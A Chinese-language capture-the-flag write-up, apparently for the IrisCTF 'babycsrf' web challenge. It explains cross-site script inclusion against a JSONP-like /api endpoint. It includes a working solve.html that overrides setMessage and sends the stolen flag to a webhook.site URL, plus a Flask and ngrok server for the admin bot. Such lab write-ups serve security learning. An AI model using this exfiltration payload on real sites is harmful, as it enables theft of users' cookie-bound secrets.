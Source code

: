 ```python
def page():
    secret = request.cookies.get("secret", "EXAMPLEFLAG")
    return f"setMessage('irisctf{{{secret}}}');"

app.run(port=12345)
```
:::

可以看到，這個網站有兩個路徑，`/` 會回傳 `home.html` 的內容，`/api` 會吃 cookie 並回傳包裝過的內容

很明顯的，從題目名稱和說明可知道這題是要做 csrf 攻擊，且看起來是要偷 `/api` 回傳的 flag 內容

因此我們可以用跨站請求的方式呼叫此網站的 `/api`，並以 script 的方式引入，並且撰寫 `setMessage` 函數將內容偷出來，以下是程式碼，其中 webhook 的部分需要自行更改

:::spoiler solve.html
```htmlembedded
<!DOCTYPE html>
<html>
    <body>
        Challenge Solution HTML
        Message of the day: <span id="message">(loading...)</span>
        <script>
        window.setMessage = (m) => {
            document.getElementById("message").innerText = m;
            var request = new XMLHttpRequest();
            request.open("GET", "https://webhook.site/2a29e662-2c84-4c37-9a22-46c9c3228068/?a="+m);
            request.send();
        }
        </script> 
        <script src="https://babycsrf-web.chal.irisc.tf/api"></script>
    </body>
</html>
```
:::

而此外也因為需要公用 ip 的關係，需要額外用 python 撰寫伺服器的部分並使用 ngrok 映射出來，python 的部分如下

:::spoiler solve_template.py
```python
from flask import Flask, request
import time
import requests

app = Flask(__name__)

with open("solve.html") as f:
    SOLVE = f.read()

@app.route("/")
def home():
    return SOLVE

# Run "ngrok http 12345"
# and submit the resulting https:// url to the admin bot
app.run(port=12345)
```
:::
